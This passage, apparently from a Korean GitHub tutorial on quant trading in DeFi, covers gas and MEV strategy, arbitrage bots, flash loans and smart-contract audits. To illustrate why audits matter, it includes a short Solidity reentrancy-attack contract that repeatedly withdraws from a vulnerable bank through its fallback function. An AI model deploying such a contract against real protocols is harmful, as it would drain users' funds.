     - 대규모 자금을 짧은 시간에 옮기기 위해선 **가스 비용 최적화**나 **트랜잭션 우선순위(MEV, Miner Extractable Value)** 방어전략이 필수입니다. 특히, 자금 이동 시 발생하는 **가스비**를 모델링하고, 체인별(이더리움, 레이어2 등)로 수수료를 비교 분석하여 최적 경로를 찾는 것은 정수계획법(Integer Programming)이나 **조합최적화** 기법으로 접근할 수 있습니다.  
    - 여러 유동성 풀(예: Curve, Uniswap, SushiSwap 등)의 스왑 수수료 구조, 슬리피지 등을 실시간 계산하는 **거래 로직** 설계가 필요합니다. 이를 위해 빠른 의사결정을 지원하는 **알고리즘 트레이딩 플랫폼**과 블록체인 네트워크 상태(트랜잭션 처리량, 평균 블록 타임 등)를 고려하는 **동적 재조정(Dynamic Rebalancing)** 알고리즘을 사용합니다.

- DEX에서 가격 `차익거래(Arbitrage)` 또는 시장 비효율성을 탐지하는 알고리즘을 사용해 `고빈도 거래`를 실행합니다. 스마트 계약을 활용하면 거래 프로세스가 자동화되고, 신속한 체결로 시장 기회를 포착할 수 있습니다.
  - 예시로 **SushiSwap**과 **Balancer** 간의 토큰 가격 차이를 탐지하여 자동으로 차익거래 기회를 포착하거나, 플래시 론(Flash Loan)을 활용하여 무담보 대출을 받은 뒤 짧은 시간에 여러 프로토콜을 순환 거래(Loop Trading)하는 방식도 가능합니다.  
  - **기술적 배경**:  
    - 차익거래 봇(Arbitrage Bot) 구현 시 블록 단위로 거래를 추적하고, 특정 범위 내에서 거래를 성공시키기 위해 **트랜잭션 우선순위 제어**(가스 수수료 상향, Flashbots 등)를 고려해야 합니다. 차익거래 전략은 `다중 경로 탐색 알고리즘`(예: 벨만–포드 알고리즘 등)을 통해 **토큰 간 교환 비율**을 종합적으로 계산하고, **최대 이익**을 주는 경로를 찾습니다.  
    - **플래시 론**을 사용할 경우, 같은 트랜잭션 내에서 대출→거래→상환이 이루어지므로, 여러 프로토콜을 순차적으로 호출하는 **멀티콜(Multicall)** 로직이 필요합니다. 이때 트랜잭션 원자성(Atomicity)을 보장하기 위해 스마트 계약에서 **여러 함수 호출**이 실패 시 전체 거래가 롤백되도록 설계해야 하며, 이는 **이산수학**에서의 그래프 순회와 **블록체인 VM(가상 머신)** 로직(예: EVM 바이트코드)을 함께 이해해야 합니다.  

**DeFi 프로토콜들과 경쟁 시 중요한 점**

- DeFi 프로토콜의 가장 큰 취약점 중 하나는 스마트 계약의 `보안 문제`입니다. 퀀트 회사가 자체 프로토콜을 운영하거나 DeFi와 경쟁한다면, **스마트 계약**의 코드 검증과 <b>보안 감사(Security Audit)</b>를 통해 신뢰를 제공해야 합니다.  
  - 예를 들어, **Formal Verification**(형식 검증), 다양한 **테스트넷** 환경에서의 시뮬레이션, 그리고 **버그 바운티** 프로그램 운영 등이 필요합니다.  
  ```solidity
    // 재진입 공격 예시😈
    contract ReentrancyAttack {
        VulnerableBank public vulnerableBank;
        constructor(address _vulnerableBankAddress) {
            vulnerableBank = VulnerableBank(_vulnerableBankAddress);
        }
        // fallback 함수: 재진입 공격 트리거
        fallback() external payable {
            if (address(vulnerableBank).balance >= 1 ether) {
                vulnerableBank.withdraw(1 ether);
            }
        }
        function attack() public payable {
            require(msg.value >= 1 ether, "Send at least 1 Ether");
            vulnerableBank.deposit{value: 1 ether}();
            vulnerableBank.withdraw(1 ether);
        }
        // 공격 계약의 잔액 확인
        function getBalance() public view returns (uint256) {
            return address(this).balance;
        }
    }
  ```
  
  <br>
  <img src="https://raw.githubusercontent.com/songyongjae/Hands-On-SQC/main/src/figure/fig3.png" alt="Flashbots Simulator Algorithm" style="width:650px;max-width:100%;">
  <br>
